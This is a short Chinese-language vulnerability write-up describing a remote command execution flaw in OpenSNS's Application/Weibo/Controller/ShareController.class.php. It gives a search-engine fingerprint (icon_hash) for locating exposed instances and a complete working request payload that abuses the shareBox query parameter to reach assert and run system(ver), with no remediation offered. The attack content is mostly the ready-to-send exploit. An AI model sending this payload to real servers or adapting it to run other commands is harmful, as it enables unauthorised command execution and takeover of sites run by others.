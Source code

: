# OpenSNS Application ShareController.class.php 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210629150345721.png)

存在漏洞的文件 **Application/Weibo/Controller/ShareController.class.php**

![img](../../../.vuepress/public/img/1634372349493-09076c1f-7406-46af-b4b4-9cabb771a8ec.png)

发送Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```



![img](../../../.vuepress/public/img/image-20210629150412729.png)

